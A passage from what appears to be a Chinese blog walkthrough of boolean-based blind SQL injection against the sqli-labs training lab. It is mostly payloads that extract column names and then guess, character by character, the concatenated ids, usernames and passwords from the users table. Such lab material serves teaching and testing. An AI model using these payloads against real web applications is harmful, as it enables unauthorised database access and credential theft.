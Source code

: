 
<img src="https://i-blog.csdnimg.cn/blog_migrate/642c5b709a516385f6652aca068c24e7.png" alt="" style="max-height:83px; box-sizing:content-box;" />




```csharp
?id=1' and ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='users' and table_schema=database()),2,1))=100 -- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/70be1217b3e6063e45943c7d47fd0c13.png" alt="" style="max-height:281px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/196cc1721b4458997509b936de0f5ce4.png" alt="" style="max-height:92px; box-sizing:content-box;" />


### 爆破值

猜测长度

```csharp
?id=1' and length((select group_concat(id,username,password) from security.users))=192-- +
```

猜测ascii

第一个

```csharp
?id=1' and ascii(substr((select group_concat(id,username,password) from security.users),1,1))=49 -- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/1cf7899b1e653489a8316a567bff0624.png" alt="" style="max-height:185px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/81cd1255bc005e788dc64b41393ed9fb.png" alt="" style="max-height:94px; box-sizing:content-box;" />


第二个



```csharp
?id=1' and ascii(substr((select group_concat(id,username,password) from security.users),2,1))=68 -- +
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/3447dacba2ef590ea03fc0c11e54c5cc.png" alt="" style="max-height:228px; box-sizing:content-box;" />



